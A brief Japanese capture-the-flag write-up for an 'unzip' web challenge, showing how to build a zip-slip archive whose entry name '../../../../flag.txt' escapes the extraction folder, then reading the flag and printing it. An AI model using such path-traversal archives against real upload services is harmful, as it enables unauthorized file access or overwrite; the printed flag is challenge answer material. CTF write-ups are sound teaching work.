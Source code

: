 # unzip

188 pt (118 Solves)

```txt
Unzip Your .zip Archive Like a Pro.
[url]
```

## 概要

zipファイルをアップロードしたら解凍してくれる。  
urlでディレクトリトラバーサル的な事ができそうだったけどできなかった。

## 解

zipslipやっていく。

```txt
touch flag.txt
mkdir -p dir/dir/dir/dir
cd dir/dir/dir/dir
zip zip-slip.zip ../../../../flag.txt
```

`zip-slip.zip`をアップロードして解凍させる。`../../../../flag.txt`を開けばflag。

```txt
ctf4b{y0u_c4nn07_7ru57_4ny_1npu75_1nclud1n6_z1p_f1l3n4m35}
```
